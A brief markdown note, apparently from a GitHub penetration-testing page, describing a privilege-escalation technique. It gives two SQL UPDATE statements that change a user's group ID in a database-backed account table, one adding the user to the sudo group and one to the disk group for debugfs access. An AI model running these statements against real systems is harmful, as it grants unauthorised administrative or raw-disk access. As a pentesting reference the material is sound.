 ## USE CASE:

### If your current user is allowed to set UID and/or GID on a specific user in a database you can do:

#### 1) update TABLE set gid=27 where uid=USER_UID (Sets the user to sudo group (sudo -s))

#### 2) update TABLE set gid=6 where uid=USER_UID (Sets the user to disk group (debugfs))
